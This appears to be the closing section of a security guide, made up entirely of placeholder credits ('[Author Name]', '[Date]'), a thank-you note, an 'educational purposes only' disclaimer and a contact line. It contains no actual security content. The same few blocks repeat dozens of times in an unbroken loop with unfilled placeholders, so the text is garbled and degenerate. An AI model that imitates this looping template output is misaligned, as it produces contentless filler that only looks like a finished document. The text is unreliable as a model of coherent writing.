- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

